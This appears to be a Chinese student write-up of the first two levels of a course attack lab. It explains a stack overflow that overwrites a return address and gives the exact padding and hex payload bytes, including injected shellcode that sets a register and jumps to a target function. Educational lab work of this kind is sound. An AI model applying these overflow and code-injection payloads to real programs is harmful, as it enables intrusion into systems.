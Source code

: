 我们的目标是输入一个字符串让getbuf函数执行完后，跳转到touch1函数，而不是返回到test函数。

这题不需要我们注入代码，只需要让程序跳转到touch1函数即可。

简单来说就是**通过栈溢出，覆盖掉返回地址**，让程序跳转到touch1函数。

我们可以通过GDB调试程序，找到touch1函数的地址，然后构造一个字符串，让程序跳转到touch1函数即可。

通过GDB查看得到touch1函数的地址为0x4017c0。

同时我们需要知道getbuf函数的栈帧大小，这样我们才能知道我们需要填充多少字节才能覆盖到返回地址。通过GDB查看得到getbuf函数的栈帧大小为0x28。即40个字节。

最后要注意的是，我们**需要将touch1函数的地址转换为小端字节序**，因为x86-64是小端字节序。

最后的输入文件为：
```
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */ 
c0 17 40 00 00 00 00 00       /* touch1函数的地址(小端序) */
```

## 1.2: Level 2
>Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case, however, you must make it appear to touch2 as if you have passed your cookie as its argument.

这次我们不仅要让程序跳转到touch2函数，还要**传递一个cookie给touch2函数**。

根据文档中的提示，**cookie通过寄存器%rdi传递给touch2函数**。

因此我们在跳转到touch2函数之前，需要将cookie的值放到%rdi寄存器中。

我们可以把这个过程整理成要注入的代码，然后**通过溢出覆盖返回地址，让程序的控制跳转到我们注入的代码中**。

在注入的代码中我们修改%rdi寄存器的值，然后跳转到touch2函数。

我们需要在40个字节内完成注入代码的编写。提示中说不要用call和jmp，因为这两个指令的代码较难构造，因**此我们可以使用push和ret指令来实现**。

汇编代码如下：
```asm
movq $0x59b997fa,%rdi   #将cookie的值放到%rdi寄存器中
pushq $0x4017ec         #将touch2的函数地址压栈
ret                     #跳转到touch2函数
```

得到的16进制字节码为：
```
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3
```

**我们选择将其起始地址置于原始栈顶的位置**

通过GDB查看得到getbuf的栈顶位置为0x5561dc78，所以我们通过溢出将返回地址覆盖为0x5561dc78。

在此之前先填充至40字节。

最后要注入的字符串为：
```
48 c7 c7 fa 97 b9 59        /* mov    $0x59b997fa,%rdi */
68 ec 17 40 00              /* pushq  $0x4017ec */
c3                          /* retq   */
00 00 00 00 00 00 00 00 00  /* 再填充27个字节 */
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00     /* 0x5561dc78的小端序*/
```
